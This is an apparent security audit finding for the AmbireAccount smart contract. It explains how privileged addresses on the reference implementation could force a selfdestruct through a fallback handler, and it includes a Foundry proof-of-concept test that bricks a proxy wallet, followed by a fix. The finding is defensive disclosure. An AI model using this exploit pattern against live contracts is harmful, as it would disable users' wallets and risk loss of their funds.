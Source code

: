 # AmbireAccount implementation can be destroyed by privileges

The AmbireAccount implementation can be destroyed, resulting in the bricking of all associated wallets.

## Impact

The AmbireAccount contract has a constructor that setups privileges, these are essentially addresses that have control over the wallet.

https://github.com/AmbireTech/ambire-common/blob/5c54f8005e90ad481df8e34e85718f3d2bfa2ace/contracts/AmbireAccount.sol#L58-L65

```solidity
58: 	constructor(address[] memory addrs) {
59: 		uint256 len = addrs.length;
60: 		for (uint256 i = 0; i < len; i++) {
61: 			// NOTE: privileges[] can be set to any arbitrary value, but for this we SSTORE directly through the proxy creator
62: 			privileges[addrs[i]] = bytes32(uint(1));
63: 			emit LogPrivilegeChanged(addrs[i], bytes32(uint(1)));
64: 		}
65: 	}
```

Normally this constructor is not really used, as wallets are deployed using proxies. The proxy constructor is the actual piece of code that setups the privileges storage to grant initial permission to the owner of the wallet.

However these proxies need to rely on a reference implementation of the AmbireAccount contract. A single contract is deployed and its address is then injected into the proxy code.

The main issue is that privileges defined in the reference implementation have control over that instance, and could eventually force a destruction of the contract using a fallback handler with a `selfdestruct` instruction (see PoC for a detailed explanation). This destruction of the implementation would render all wallets non-functional, as the proxies won't have any underlying logic code. Consequently, wallets would become inaccessible, resulting in potential loss of funds.

It is not clear the purpose of this constructor in the AmbireAccount contract. It may be present to facilitate testing. This issue can be triggered by a malicious deployer (or any of the defined privileges) or by simply setting up a wrong privilege accidentally. Nevertheless, its presence imposes a big and unneeded security risk, as the destruction of the reference implementation can render **all** wallets useless and inaccessible.

## Proof of Concept

The following test reproduces the described issue. A deployer account deploys the implementation of the AmbireAccount contract that is later used by the user account to create a proxy (AccountProxy contract) over the implementation. The deployer then forces the destruction of the reference implementation using a fallback handler (Destroyer contract). The user's wallet is now inaccessible as there is no code behind the proxy.

The majority of the test is implemented in the `setUp()` function in order to properly test the destruction of the contract (in Foundry contracts are deleted when the test is finalized).

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/79248a4fdf436eb3044e87cfffc9d8f7).

```solidity
contract Destroyer {
    function destruct() external {
        selfdestruct(payable(address(0)));
    }
}

contract AccountProxy is ERC1967Proxy {
    // Simulate privileges storage
    mapping(address => bytes32) public privileges;

    constructor(address[] memory addrs, address _logic) ERC1967Proxy(_logic, "") {
		uint256 len = addrs.length;
		for (uint256 i = 0; i < len; i++) {
			// NOTE: privileges[] can be set to any arbitrary value, but for this we SSTORE directly through the proxy creator
			privileges[addrs[i]] = bytes32(uint(1));
		}
	}
}

contract AuditDestructTest is Test {
    AmbireAccount implementation;
    AmbireAccount wallet;

    function setUp() public {
        // Master account implementation can be destroyed by any of the configured privileges
        address deployer = makeAddr("deployer");
        address user = makeAddr("user");

        // Lets say deployer creates reference implementation
        address[] memory addrsImpl = new address[](1);
        addrsImpl[0] = deployer;
        implementation = new AmbireAccount(addrsImpl);

        // User deploys wallet
        address[] memory addrsWallet = new address[](1);
        addrsWallet[0] = user;
        wallet = AmbireAccount(payable(
            new AccountProxy(addrsWallet, address(implementation))
        ));

        // Test the wallet is working ok
        assertTrue(wallet.supportsInterface(0x4e2312e0));

        // Now privilege sets fallback
        Destroyer destroyer = new Destroyer();
        AmbireAccount.Transaction[] memory txns = new AmbireAccount.Transaction[](1);
        txns[0].to = address(implementation);
        txns[0].value = 0;
        txns[0].data = abi.encodeWithSelector(
            AmbireAccount.setAddrPrivilege.selector,
            address(0x6969),
            bytes32(uint256(uint160(address(destroyer))))
        );
        vm.prank(deployer);
        implementation.executeBySender(txns);

        // and destroys master implementation
        Destroyer(address(implementation)).destruct();
    }

    function test_AmbireAccount_DestroyImplementation() public {
        // Assert implementation has been destroyed
        assertEq(address(implementation).code.length, 0);

        // Now every wallet (proxy) that points to this master implementation will be bricked
        wallet.supportsInterface(0x4e2312e0);
    }
}
```

## Recommendation

Remove the constructor from the AmbireAccount contract.


